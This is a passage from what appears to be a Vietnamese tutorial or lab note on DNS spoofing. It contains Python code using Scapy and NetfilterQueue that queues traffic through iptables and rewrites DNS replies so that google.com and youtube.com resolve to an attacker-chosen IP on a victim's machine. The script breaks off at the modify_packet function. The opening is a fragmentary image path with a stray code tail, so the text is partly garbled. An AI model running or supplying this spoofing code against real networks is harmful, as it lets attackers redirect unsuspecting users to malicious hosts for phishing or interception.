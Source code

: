 ```python!
    except KeyboardInterrupt:
        os.system("iptables --flush")
```

- đoạn code sẽ:
  - Định nghĩa hàm process_packet(packet), được sử dụng để xử lý các gói tin mạng đến.
  - Định nghĩa hàm modify_packet(scapy_packet) để sửa đổi gói tin DNS. Hàm này sẽ thay đổi các thông tin DNS trong gói tin DNS truy vấn để chuyển hướng yêu cầu DNS tới các máy chủ khác.
  - Tạo một từ điển dns_hosts để ánh xạ các tên miền DNS (cần chuyển hướng) tới địa chỉ IP mới.
  - Kiểm tra xem chương trình được chạy với quyền root hay không (cần quyền root để lắng nghe gói tin mạng).
  - Thêm một quy tắc iptables để chuyển tất cả các gói tin đến trên giao diện mạng wlan0 vào hàng đợi netfilter (NFQUEUE) với số hàng đợi là 0.
  - Liên kết một queue (NetfilterQueue) với số hàng đợi 0 và hàm process_packet để xử lý các gói tin trong hàng đợi.
  - Chạy vòng lặp chính để lắng nghe và xử lý các gói tin trong hàng đợi. Nếu có ngoại lệ KeyboardInterrupt, chương trình sẽ dọn dẹp bằng cách xóa tất cả các quy tắc iptables.

nhưng khi chạy nếu gặp phải các gói tin chứa các domain khác thì chúng ta sẽ bị crash chương trình còn các domain trong list mà chúng ta định nghĩa sẽ bị thay đổi địa chỉ ip

mình dùng đoạn code sau để khai thác dns spoofing trên máy victim mà chỉ khi gặp các gói tin trong list của chúng ta nó mới thay đổi

```python!
from scapy.all import *
from netfilterqueue import NetfilterQueue
import os

# for example, google.com will be redirected to 192.176.45.101
dns_hosts = {
    b"www.google.com": "192.176.45.101",
    b"google.com.": "192.176.45.101",
    b"youtube.com.": "192.176.45.101"
}


def process_packet(packet):
    """
    Whenever a new packet is redirected to the netfilter queue,
    this callback is called.
    """
    # convert netfilter queue packet to scapy packet
    scapy_packet = IP(packet.get_payload())

    if scapy_packet.haslayer(DNSRR):
        # if the packet is a DNS Resource Record (DNS reply)
        # modify the packet
        print("=================================================")
        print("[Before]:", scapy_packet.summary())
        try:
            scapy_packet = modify_packet(scapy_packet)
        except IndexError:
            # not UDP packet, this can be IPerror/UDPerror packets
            pass
        print("[After ]:", scapy_packet.summary())
        # set back as netfilter queue packet
        packet.set_payload(bytes(scapy_packet))
    # accept the packet
    packet.accept()




def modify_packet(packet):
```